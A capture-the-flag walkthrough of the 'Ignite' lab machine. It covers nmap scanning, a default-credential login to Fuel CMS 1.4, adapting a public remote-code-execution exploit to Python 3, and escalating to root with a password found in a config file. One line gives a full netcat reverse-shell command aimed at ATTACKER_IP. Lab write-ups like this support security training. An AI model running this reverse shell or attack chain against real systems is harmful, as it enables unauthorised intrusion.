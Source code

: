 ```yaml
---
title: "Ignite"
tags:
  - Easy
  - Linux
  - nmap
  - fuelcms
  - SQLi
---
```


| Difficulty |  |  IP Address   |  |
| :--------: |--|:------------: |--|
|   Easy     |  |  10.10.162.4  |  |

---

### [ User.txt ]

To start off, let's run a basic `nmap` scan (top 1000 common ports) on the machine:

```
sudo nmap -sC -sV -vv 10.10.162.4
```

![screenshot1](../assets/images/ignite/screenshot1.png)

From the results, we can see that only port **80** is open, serving Apache httpd 2.4.18. An interesting thing to note is that there is a disallowed entry '/fuel/' in the robots.txt file.

Navigating to the HTTP website, we see a Fuel CMS webpage:

![screenshot2](../assets/images/ignite/screenshot2.png)

I first looked at the source code of the site, but there weren't any useful comments or information that were left behind by the developer. 

Next, I noticed something interesting at the bottom of the page:

![screenshot3](../assets/images/ignite/screenshot3.png)

It seems that the default admin credentials for Fuel CMS is:

> admin : admin

Furthermore, the admin page for Fuel CMS can be found in /fuel. Visiting /fuel brings us to a login page:

![screenshot4](../assets/images/ignite/screenshot4.png)

I tried using the default credentials (admin:admin) and was able to log in! We are then brought to an administrative dashboard:

![screenshot5](../assets/images/ignite/screenshot5.png)

Clicking on 'Click here for your site documentation', we can see that the site is running FUEL CMS **1.4**:

![screenshot6](../assets/images/ignite/screenshot6.png)

With the knowledge of the version number, let's try searching for an exploit using `searchsploit`:

```
searchsploit fuel 1.4
```

![screenshot7](../assets/images/ignite/screenshot7.png)

The second exploit provides a Python script that allows us to gain remote code execution (RCE) on the machine. Let's use it!

**Exploit:**

![screenshot14](../assets/images/ignite/screenshot14.png)

Let's modify the exploit so that it will work for us.

Seems like we just have to change the `url` to the victim's IP address. Also note that the code runs the connection through Burp Proxy, which we will remove as we are not using that. Finally, to allow for compatibility with Python3, I had to make the following changes:

* `raw_input()` to `input()`

* `quote()` to `urllib.parse.quote()` (make sure to import urllib.parse)

* `print r.text[0:dup]` to `print(r.text[0:dup])`

The modified exploit script looks like this:

![screenshot15](../assets/images/ignite/screenshot15.png)

Running the exploit, it prompts us to run a command on the target machine. Let's try a simple `whoami` command:

![screenshot16](../assets/images/ignite/screenshot16.png)

Nice, it works! We've achieved RCE on our target.

Now, we'll try setting up a reverse shell. Using pentestmonkey's [reverse shell cheatsheet](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet), I found one that worked:

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc ATTACKER_IP 4444 >/tmp/f
```

Running this command using the exploit allowed us to gain access into our target machine:

![screenshot18](../assets/images/ignite/screenshot18.png)

Now that we're in, we can obtain **user.txt** from www-data's home directory.

---

### [ Root.txt ]

To enumerate any potential privesc vectors, we'll use [LinPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS), a privilege escalation automation script. This will help speed up the enumeration process. 

Looking through linpeas' results, we come across an interesting configuration file: **/var/www/html/fuel/modules/views/settings.php**:

![screenshot20](../assets/images/ignite/screenshot20.png)

Exploring this file yielded nothing of interest. However, I decided to look around its neighbouring directories and files. 
After searching for a long time, I finally found a file called **database.php**, located in **/var/www/html/fuel/application/config/**, that had the root password inside:

![screenshot21](../assets/images/ignite/screenshot21.png)

The root password is:

> mememe

With the root password, we can then log in as root and obtain **root.txt** located in /root.

---

### [ Extra: Interactive Shells ]

When I was trying to log in using `su root`, an error "must be run from a terminal" kept popping up, disallowing me from logging in. Doing some research, this seems to be because the shell spawned from our reverse shell code is a **non-interactive** shell, and not a fully-interactive TTY shell.

In order to upgrade the shell, we can use Python:

![screenshot22](../assets/images/ignite/screenshot22.png)

This command upgrades our shell to a more functional one that is similar to our terminal on our local machine. We can then `su` into the root account:

![screenshot23](../assets/images/ignite/screenshot23.png)

